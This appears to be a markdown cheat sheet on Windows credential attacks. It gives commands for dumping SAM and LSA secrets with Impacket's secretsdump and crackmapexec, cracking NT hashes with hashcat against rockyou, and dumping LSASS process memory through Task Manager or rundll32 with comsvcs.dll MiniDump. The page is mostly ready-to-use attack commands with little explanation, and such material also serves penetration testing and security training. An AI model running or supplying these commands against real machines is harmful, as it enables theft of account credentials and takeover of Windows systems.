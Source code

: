 #### Step 3 : Dumping Hashes with Impacket's secretsdump.py

##### Local dump
```bash
# locate 
locate secretsdump 

python3 <location | /usr/share/doc/python3-impacket/examples/secretsdump.py > -sam sam.save -security security.save -system system.save LOCAL
```
*  Most modern Windows operating systems store the password as an NT hash.
* Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash

##### Remote Dumping & LSA Secrets Considerations
```bash
# be root
crackmapexec smb <IP-Target> --local-auth -u <UserName> -p <Password> --lsa | --sam
```
#### Step 4 : Cracking Hash

* Adding nthashes to a .txt File
###### Running Hashcat against NT Hashes
```bash
# -m 1000 => ( NT Hash)
sudo hashcat -m 1000 <FileName | hashestocrack.txt > /usr/share/wordlists/rockyou.txt
```
---

### II - Attacking LSASS

Upon initial logon, LSASS will:
* Cache credentials locally in memory
* Create access tokens
* Enforce security policies
* Write to Windows security log

#### Dumping LSASS Process Memory

##### Task Manager Method
`Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file`
```bash
# file name 
lsass.DMP
# directory of dump file 
C:\Users\<loggedonusersdirectory>\AppData\Local\Temp
```

##### Rundll32.exe & Comsvcs.dll Method
```bash
# Finding LSASS PID in cmd
tasklist /svc
# Finding LSASS PID in PowerShell
Get-Process lsass
# Creating lsass.dmp using PowerShell
# etre dans windows/systeme32
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 <C:\lsass.dmp | outPutPath> full
```

